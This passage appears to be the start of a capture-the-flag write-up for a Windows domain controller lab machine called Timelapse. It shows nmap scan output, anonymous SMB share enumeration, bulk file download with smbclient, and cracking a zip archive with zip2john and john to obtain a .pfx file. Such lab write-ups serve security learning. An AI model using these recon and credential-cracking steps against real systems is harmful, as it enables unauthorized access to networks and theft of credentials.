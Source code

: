 
└─$ nmap -sC -sV -Pn 10.10.11.152 -oN initial.nmap

    # Nmap 7.92 scan initiated Wed Apr 27 10:30:54 2022 as: nmap -sC -sV -Pn -oN initial.nmap 10.10.11.152
    Nmap scan report for 10.10.11.152
    Host is up (0.019s latency).
    Not shown: 989 filtered tcp ports (no-response)
    PORT     STATE SERVICE           VERSION
    53/tcp   open  domain            Simple DNS Plus
    88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2022-04-27 22:31:05Z)
    135/tcp  open  msrpc             Microsoft Windows RPC
    139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
    389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
    445/tcp  open  microsoft-ds?
    464/tcp  open  kpasswd5?
    593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
    636/tcp  open  ldapssl?
    3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
    3269/tcp open  globalcatLDAPssl?
    Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

    Host script results:
    |_clock-skew: 7h59m59s
    | smb2-security-mode: 
    |   3.1.1: 
    |_    Message signing enabled and required
    | smb2-time: 
    |   date: 2022-04-27T22:31:13
    |_  start_date: N/A

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Wed Apr 27 10:31:49 2022 -- 1 IP address (1 host up) scanned in 55.41 seconds

smbclient -L //10.10.11.152 -N

      Sharename       Type      Comment
      ---------       ----      -------
      ADMIN$          Disk      Remote Admin
      C$              Disk      Default share
      IPC$            IPC       Remote IPC
      NETLOGON        Disk      Logon server share 
      Shares          Disk      
      SYSVOL          Disk      Logon server share 
    Reconnecting with SMB1 for workgroup listing.
    do_connect: Connection to 10.10.11.152 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
    Unable to connect with SMB1 -- no workgroup available

Connect to `Shares` folder
`└─$ smbclient \\\\10.10.11.152\\Shares -N`

Once you are in, `mget` all the files in Shares folder. Use `prompt` to get rid of the yes/no confirmation. 

    smb: \> help prompt
    HELP prompt:
      toggle prompting for filenames for mget and mput

Crack the .zip with `zip2john` and `john` and get the .pfx file
